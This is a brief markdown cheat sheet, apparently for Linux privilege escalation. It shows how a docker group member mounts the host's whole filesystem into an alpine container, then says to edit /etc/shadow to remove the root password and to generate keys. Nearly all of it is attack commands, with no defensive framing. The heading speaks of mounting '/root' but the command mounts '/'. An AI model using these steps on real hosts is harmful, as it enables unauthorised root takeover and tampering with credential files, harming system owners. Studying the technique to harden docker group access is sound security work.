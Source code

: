 - - -
### mount the real host  '/root' directory to '/mnt' : 

Confirm that you are a member of **Docker Group** 
```sh
groups
```

```sh
 docker run -v  /:/mnt -it alpine
```

```sh
ls ; cd mnt ;  ls
```

Now generate **key-gens** , vim /etc/shadow and remove root password,etc....

- - -

